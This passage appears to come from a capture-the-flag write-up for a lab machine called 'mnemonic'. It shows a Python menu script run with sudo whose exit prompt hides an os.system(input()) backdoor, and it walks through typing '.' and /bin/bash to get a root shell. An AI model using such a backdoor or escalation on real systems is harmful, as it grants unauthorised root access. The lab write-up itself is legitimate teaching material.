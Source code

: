 ```python

run()
```

When run, the program will display a menu with several options. Analyzing the code, we can notice that option 0 (exit) will prompt for a confirmation. If the answer is a dot (`.`) the program will display a fake `Running...` string, which is actually a prompt (`input`) that waits for a command to execute (`os.system`):

```python
os.system(input("\nRunning...."))`
```

Let's run the program as `root` and get a root shell by executing `/bin/bash`:

~~~
condor@mnemonic:~$ sudo python3 /bin/examplecode.py 


	------------information systems script beta--------
	---------------------------------------------------
	---------------------------------------------------
	---------------------------------------------------
	---------------------------------------------------
	---------------------------------------------------
	---------------------------------------------------
	----------------@author villwocki------------------

Running...



	#Network Connections   [1]

	#Show İfconfig         [2]

	#Show ip route         [3]

	#Show Os-release       [4]

        #Root Shell Spawn      [5]           

        #Print date            [6]

	#Exit                  [0]

	

Select:0
are you sure you want to quit ? yes : .

Running..../bin/bash
root@mnemonic:~# id
uid=0(root) gid=0(root) groups=0(root)
~~~
